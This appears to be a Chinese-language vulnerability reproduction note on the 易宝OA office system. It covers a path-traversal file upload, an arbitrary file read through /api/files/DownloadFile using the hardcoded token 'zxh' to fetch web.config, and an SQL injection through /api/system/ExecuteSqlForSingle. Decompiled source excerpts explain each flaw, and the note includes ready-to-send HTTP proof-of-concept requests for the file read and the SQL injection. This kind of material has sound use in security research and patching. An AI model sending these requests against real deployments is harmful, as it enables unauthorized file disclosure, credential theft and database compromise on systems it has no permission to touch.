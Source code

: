 ## 易宝oa

### BasicService文件上传漏洞

首先会有一个webservicePassword的判断条件

```
	if (!(webservicePassword == GetWebServicePassword()))
```

webservicePassword存放于web.config中，<add *key*="WebServicePassword" *value*="xxxx"/>

在判断之后将PersonalDocumentUpLoadPath和filename拼接后进入if (File.Exists(path))判断

personalDocumentuploadpath默认为Topvision\SmartTradeServer\UpLoadPath\PersonalDocument

直接fs传入字节数组，filename为../../xxxx/xxx.xxx即可



### DownloadFile文件读取复现

网上poc如下

```
POST /api/files/DownloadFile HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.8; rv:21.0) Gecko/20100101 Firefox/21.0
Content-Length: 94
Accept-Encoding: gzip
Content-Type: application/x-www-form-urlencoded

token=zxh&requestFileName=../../manager/web.config&pathType=1
```

查看源码之后发现首先有个if语句，当为null时返回token不能为空或已过期

```
public ReturnResult<byte[]> DownloadFile(string requestFileName, int pathType)
{
	if (IsAuthorityCheck() == null)
	{
		return new ReturnResult<byte[]>("token不能为空或已过期");
	}
	requestFileName = getByValue("requestFileName");
	pathType = int.Parse(getByValue("pathType"));
	return SingleBase<fileServices>.get_Instance().DownloadFile(requestFileName, pathType);
}
```

跟进查看可知token要为zxh

```
public UserInfo IsAuthorityCheck()
{
	string byValue = getByValue("token");
	if (string.IsNullOrWhiteSpace(byValue))
	{
		return null;
	}
	if (byValue == "zxh")
	{
		return new UserInfo();
	}
```



### ExecuteSqlForSingle sql注入 

```
POST /api/system/ExecuteSqlForSingle HTTP/1.1
Host: IP:PORT
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Content-Length: 103

token=zxh&sql=select substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32)&strParameters
```

